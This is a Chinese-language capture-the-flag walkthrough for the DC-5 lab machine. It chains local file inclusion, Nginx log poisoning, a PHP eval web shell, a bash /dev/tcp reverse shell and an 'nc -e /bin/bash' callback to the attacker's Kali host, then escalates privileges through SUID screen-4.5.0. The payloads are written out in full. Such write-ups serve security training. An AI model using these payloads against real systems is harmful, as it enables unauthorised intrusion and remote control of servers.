## DC-5 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-5          | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Nginx** 代理服务器，以及它的版本号：**1.6.2**


经过 OSINT，发现该版本的漏洞不多。虽然没有让人兴奋的 RCE，但是却发现一个本地提权漏洞（从[这篇文章](https://vuldb.com/?id.93109)知道是 Nginx 日志文件导致的提权漏洞），我们将它作为候补方案



除了自己收集的信息之外，出题人也给了我们明确的信息：

```
You need to look for something a little out of the ordinary (something that changes with a refresh of a page).
```

经过使用 BP 的高级功能 **Content Discovery** 发现 `footer.php` 页面内容会改变，想必这就是作者提到的刷新会改变的页面，因此可以确定突破口就在这里



经过测试后发现页面返回的内容就几个，猜测是有随机值或者存在固定的数组元素



后来查看 `thankyou.php` 页面源码发现包含 `footer.php`页面。不过进行到这里卡了一段时间，实在没头绪就想到用 [Arjun](https://github.com/s0md3v/Arjun) 工具来试试测试 HTTP 请求参数



结果是让人兴奋的，至少这次成功了（之前测试其他的页面啥都没有 ¯\(°_o)/¯）。不过一看到参数的名字就立刻想到 **LFI**，因此把它丢到 **Intruder**，暴力读一下文件

> 使用 SecLists 项目的 `Fuzzing\LFI\LFI-Jhaddix.txt` 字典

 

返回结果有很多，可以使用 BP 的过滤功能过滤掉没有返回内容的响应包

> 没有返回内容的响应包内容长度都是 **835**，因此在过滤框中填入 `Content-Length: 835` 进行过滤，又因为我们需要反向选择，勾选 **Negative search** 选项，这样过滤后的结果就是有返回内容的响应包



当然我们也可以修改 `file` 参数值为 `php://filter/convert.base64-encode/resource=footer.php` 来查看 `footer.php` 文件内容

```php
<?php    
//Random Gen Test    
$rndmYears = array(
    "Copyright © 2017", "Copyright © 2018", "Copyright © 2019",  "Copyright © 2020"  );    
echo $rndmYears[mt_rand(0, count($rndmYears)-1)];    
?>
```

因此这里我们就可以使用之前收集到的信息读取 Nginx 的日志文件




### Getshell

经过测试，我们知道 Nginx 会将请求的内容保存在日志文件，这样我们可以进行 getshell ，因此在 BP 上修改请求字段：`GET /thankyou.php?file=<?php @eval($_POST["sh"]);?> HTTP/1.1` 并提交。

之后使用 [蚁剑](https://github.com/AntSwordProject/antSword) 连接上之后再远程连接 Kali 

`bash -c "bash -i >& /dev/tcp/192.168.1.112/6677 0>&1"`

### 提权

后面的步骤一如既往，上传 `LinEnum.sh` 脚本到虚拟机 `/tmp` 目录下执行。注意到 `/bin/screen-4.5.0` 具有 **SUID** 权限



查找该工具的漏洞



结果是好的，我们可以进行本地提权。不过这里我们直接将脚本上传运行会有些问题，既然 shell 脚本自动化执行有点问题，那就根据脚本内容手动一步步执行就可以了



### 总结

1. 走投无路时试试测试 HTTP 查询参数，也可以使用 Kali 自带的 wfuzz 工具

2. Getshell 时，可以试试

   `GET /thankyou.php?file=<?php system($_GET['cmd']); ?> HTTP/1.1`

   后续访问执行命令再加上 `cmd` 参数即可，比如：

   `http://192.168.1.107/thankyou.php?file=/var/log/nginx/error.log&cmd=nc%20192.168.1.112%206677%20-e%20/bin/bash`

3. BP 过滤选项不仅可以根据选择的内容过滤，也可以根据状态码过滤：`status":"404`